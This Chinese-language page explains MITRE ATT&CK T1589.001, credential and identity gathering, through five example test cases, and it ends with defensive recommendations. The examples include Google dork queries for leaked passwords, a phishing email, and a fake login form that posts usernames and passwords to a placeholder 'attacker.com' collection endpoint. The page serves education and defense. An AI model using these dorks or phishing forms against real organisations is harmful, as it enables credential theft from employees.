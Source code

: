 # T1589-001-收集目标组织身份信息-凭证

## 描述

攻击者通过收集目标组织身份信息-凭证（T1589.001）获取受害者的身份数据（如员工姓名、电子邮件地址、用户名、密码等），为后续攻击（如钓鱼 T1566、有效账号 T1078 或凭证爆破 T1110）提供情报。这些操作通常在攻击者的外部环境（如自己的主机、云服务）进行，例如通过社交媒体爬取、搜索引擎挖掘（如 Google Hacking）、网络情报工具（如 Shodan、FOFA）、钓鱼攻击或公开数据泄露（如密码数据库）收集凭证。由于这些活动发生在目标组织视野之外，直接检测较为困难，但凭证可能被用于后续的初始访问或横向移动。

## 测试案例

#### 测试案例 1：Google Hacking 搜索凭证
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 使用 Google Hacking 语法搜索公开暴露的凭证或敏感信息，通常在攻击者自己的设备上执行。  
**示例操作**：
```bash
:: 在浏览器中输入以下 Google 搜索语法
intext:password filetype:txt site:*.org
intext:username password site:pastebin.com
intext:"email password" site:*.gov
```
**输出示例**：
```
- 搜索结果可能包含公开的文本文件或 Pastebin 页面，泄露用户名和密码。
- 示例：user:admin password:Admin2025
- 示例：email:john.doe@example.org password:Pass1234
```
**说明**：  
- 攻击者利用搜索引擎发现目标组织的凭证或敏感信息。  
- 关联 T1589.001：通过公开数据收集身份信息。

#### 测试案例 2：社交媒体爬取员工信息
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 通过 LinkedIn、Twitter 或其他社交媒体平台收集员工姓名、职位、电子邮件等信息，通常使用爬虫工具或 OSINT 框架。  
**示例操作**（Python 伪代码）：
```python
import requests
url = "https://www.linkedin.com/company/example-org/people/"
response = requests.get(url)
# 解析 HTML，提取员工信息
# 输出：姓名、职位、可能的电子邮件
```
**输出示例**：
```
Name: John Doe, Title: IT Manager, Email: john.doe@example.org
Name: Jane Smith, Title: HR Director, Email: jane.smith@example.org
```
**说明**：  
- 收集员工身份信息，用于定制钓鱼攻击。  
- 关联 T1589.001：通过社交媒体获取凭证相关数据。

#### 测试案例 3：钓鱼模拟收集凭证
**关联技术**：T1589.001（凭证收集）、T1566（钓鱼）  
**说明**：  
- 攻击者发送钓鱼邮件或创建伪造登录页面，诱导目标输入凭证，通常在外部服务器上执行。  
**示例操作**：
- 发送伪造邮件，包含链接到攻击者控制的登录页面：
  ```
  Subject: 紧急：请验证您的账号
  Body: 请点击以下链接更新您的密码：http://fake-example.com/login
  ```
- 伪造登录页面（HTML 伪代码）：
  ```html
  <form action="http://attacker.com/collect" method="POST">
      用户名: <input type="text" name="username">
      密码: <input type="password" name="password">
      <input type="submit" value="登录">
  </form>
  ```
**输出示例**（攻击者服务器日志）：
```
POST /collect HTTP/1.1
username=johndoe&password=Pass1234
```
**说明**：  
- 通过钓鱼攻击收集用户凭证。  
- 关联 T1589.001：通过钓鱼获取凭证。

#### 测试案例 4：查询公开数据泄露
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 使用公开数据泄露数据库（如 Have I Been Pwned）查询目标邮箱的泄露凭证，通常在攻击者设备上通过 API 或网站执行。  
**示例操作**：
```bash
:: 在浏览器访问
https://haveibeenpwned.com/
:: 输入目标邮箱：john.doe@example.org
```
**输出示例**：
```
Breaches:
- LinkedIn (2012-05-05)
- Adobe (2013-10-04)
```
**说明**：  
- 检查目标邮箱是否出现在数据泄露中，可能获取密码。  
- 关联 T1589.001：通过公开泄露获取凭证。

#### 测试案例 5：使用 OSINT 工具收集身份信息
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 使用开源情报（OSINT）工具（如 Maltego、SpiderFoot）收集目标组织的身份信息，包括邮箱、用户名或关联账号。  
**示例操作**：
- 在 Maltego 中：
  - 输入目标域名：example.org
  - 运行变换（Transform）：提取邮箱、社交媒体账号
**输出示例**：
```
Domain: example.org
Emails: john.doe@example.org, jane.smith@example.org
Twitter: @JohnDoe, @JaneSmith
```
**说明**：  
- 整合公开数据，构建目标身份画像。  
- 关联 T1589.001：通过 OSINT 获取凭证相关信息。

## 建议

1. **防御措施**：
   - **员工培训**：开展反钓鱼和隐私保护培训，提高员工对伪造邮件和社交工程的警惕性。
   - **数据最小化**：限制员工在社交媒体和公开网站上暴露的身份信息（如邮箱、职位）。
   - **邮件网关**：部署反钓鱼网关，检测伪造邮件和可疑链接。
   - **密码策略**：强制使用强密码，定期更换，避免密码重用。
   - **多因素认证（MFA）**：为所有账号启用 MFA，降低凭证被盗风险。
2. **后续阶段监控**：
   - 监控钓鱼攻击（T1566），如异常登录尝试（事件 ID 4624）或可疑邮件点击。
   - 检测有效账号使用（T1078），如非预期时间/地点的登录。
   - 使用 EDR 或 SIEM 关联异常行为，如凭证爆破（T1110）或外部 API 请求。
3. **外部情报监控**：
   - 定期检查公开数据泄露（如 Have I Been Pwned），通知员工更新受损凭证。
   - 监控社交媒体和暗网，识别针对组织的身份信息收集。
   - 与威胁情报服务合作，获取针对组织的侦察预警。
4. **降低误报**：
   - 区分合法的员工行为（如访问 LinkedIn）与攻击者的爬取活动。
   - 结合上下文分析，如异常访问时间、来源 IP 或高频查询。

## 参考推荐

- MITRE ATT&CK:T1589-001  
  <https://attack.mitre.org/techniques/T1589/001/>
